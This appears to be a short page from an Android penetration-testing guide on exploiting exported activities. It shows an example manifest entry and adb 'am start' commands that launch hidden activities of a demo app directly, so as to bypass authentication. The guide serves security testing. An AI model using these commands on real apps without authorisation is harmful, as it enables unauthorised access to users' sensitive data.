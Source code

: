 ```yaml
---
title: "Exploiting exported Activities"
weight: 8
description: "Learn how to identify and exploit exported activities in Android applications during penetration testing. This guide covers bypassing authentication mechanisms and accessing sensitive information through improperly exported activities."
---
```


# Exploiting exported Activities

If an activity involving sensitive information is exported, it could potentially bypass authentication mechanisms, allowing unauthorized access.

```sh
adb shell am start -n com.example.demo/com.example.demo.MainActivity
```

You need to start the activity with the intent filtered declared:

```xml
<activity android:name="com.example.demo.HiddenActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.QUICK_VIEW"/>
        <category android:name="android.intent.category.INFO"/>
    </intent-filter>
</activity>
```

```sh
adb shell am start -n com.example.demo/.HiddenActivity -a android.intent.action.QUICK_VIEW -c android.intent.category.INFO
```
